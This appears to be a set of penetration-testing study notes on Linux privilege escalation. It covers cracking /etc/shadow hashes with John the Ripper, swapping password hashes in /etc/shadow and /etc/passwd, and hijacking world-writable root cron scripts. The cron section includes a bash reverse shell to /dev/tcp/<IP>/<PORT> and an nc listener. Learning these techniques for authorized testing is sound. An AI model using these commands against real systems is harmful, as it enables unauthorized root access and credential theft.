





# Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.

  
  <br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  

  Example of cron jobs scheduled to run **as root** every minute:
  
  
   
  `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. Instead, `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.
  


  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
